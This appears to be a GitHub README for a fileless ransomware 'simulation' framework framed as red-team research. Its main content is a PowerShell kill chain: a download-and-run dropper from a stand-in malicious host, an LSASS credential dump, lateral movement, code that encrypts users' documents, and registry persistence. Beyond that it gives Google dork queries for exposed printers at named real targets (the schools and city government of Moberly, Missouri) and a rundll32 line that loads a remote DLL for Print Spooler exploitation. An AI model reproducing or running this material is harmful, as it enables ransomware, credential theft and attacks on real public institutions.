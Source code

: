 
# 🚩 Overview

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a red/purple team research initiative that simulates a **fileless malware** framework, purpose-built for **Windows 11** environments. This project is for educational and security research purposes only.

---

This repository enables simulation of a realistic adversary kill chain using MITRE ATT&CK techniques, emphasizing complete fileless operation and stealth.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```
## Google Dorks Recon:

# 🖨️ Printer Reconnaissance via Google Dorking  
**Target Location:** Moberly, Missouri  
**Objective:** Identify publicly exposed printer services vulnerable to Windows Print Spooler exploits such as CVE-2021-1675 (PrintNightmare), CVE-2021-34527, and CVE-2022-21999. These exposures can assist in red team assessments, lateral movement staging, or vulnerability management audits.

This technique uses crafted Google Dork queries to uncover unsecured or misconfigured web-based printer interfaces (e.g., HP JetDirect, RICOH Web Image Monitor, Canon UI), often found in public school systems, city infrastructure, or small business networks. These systems may have active Print Spooler services, which can be exploited for privilege escalation or remote code execution via known vulnerabilities.

---

## 🔍 Google Dork Examples (Moberly-Focused)


    inurl:"/hp/device/this.LCDispatcher" "Moberly"
    intitle:"Printer Status" "Moberly Public Schools"
    intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
    inurl:"/printer/main.html" "City of Moberly"
    intitle:"Web Jetadmin" "Moberly"
    inurl:"/printers/" "Moberly"
    inurl:"/PPS/public/" "Moberly"
    intitle:"Konica Minolta" inurl:"/wcd/" "Moberly"
    intitle:"PaperCut MF" "Moberly"
    intitle:"Lexmark" inurl:"/printer/" "Moberly"
    intitle:"Canon Remote UI" "Moberly"
    intitle:"EpsonNet Config" "Moberly"

---
## LOLbins Overveiw: 

# 🛠️ LOLBINS Reconnaissance Summary  
**Target Context:** Moberly, Missouri  
**Objective:** Understand and utilize **LOLBins** (Living Off the Land Binaries) as part of stealthy, fileless post-exploitation strategies targeting public infrastructure—such as printers, school networks, or municipal systems—in regions like **Moberly, MO**.

LOLBins are legitimate Windows binaries that come pre-installed and are often trusted by endpoint security tools. Adversaries and red teamers abuse these tools to execute malicious payloads without dropping new files, reducing detection risk. Their misuse is a cornerstone of fileless malware operations and is commonly observed in advanced persistent threat (APT) campaigns.

---

## 📌 Example Use Case – Moberly Print Service Target


    rundll32.exe \\10.10.X.X\shared\payload.dll,ReflectEntry


**Scenario:**
After identifying an exposed printer or print server in Moberly (e.g., via Google Dorking), the attacker uses **`rundll32.exe`**—a trusted binary—to execute a DLL payload from a shared network path. This avoids writing to disk and exploits the Print Spooler service remotely if vulnerable (e.g., CVE-2021-1675).

---

**Note:** LOLBins like `rundll32.exe`, `regsvr32.exe`, and `powershell.exe` should be monitored in high-trust environments like public school or city IT networks, especially when they interact with remote shares or untrusted memory regions.


```


## Embed and Encoded Dropper:

## HiveNightmare / Print Spooler Exploits: 

## Reflective Dll Injection: 

## Mitre Attack Summary: 

## Detection & Mitigation Strategy

---

### ⚠️ Legal Disclaimer

All code, content, and techniques provided in this project are strictly for **educational** and **authorized penetration testing** purposes only. Usage must be confined to **isolated lab environments** and must comply with all relevant laws and regulations.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)

